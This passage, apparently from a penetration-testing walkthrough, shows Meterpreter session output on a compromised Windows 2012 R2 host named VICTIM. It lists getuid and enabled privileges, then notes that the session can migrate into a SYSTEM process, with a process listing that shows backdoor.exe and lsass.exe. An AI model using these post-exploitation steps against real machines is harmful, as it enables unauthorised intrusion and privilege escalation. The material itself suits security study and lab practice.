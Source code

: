 ```bash
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```

<br />

now we can migrate to any process that has `NT AUTHORITY\SYSTEM ` privillage

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 156   3036  backdoor.exe          x86   1        VICTIM\admin                  C:\Temp\backdoor.exe
 364   4     smss.exe              x64   0                                      
 468   676   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 676   592   services.exe          x64   0                                      
 684   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe

```
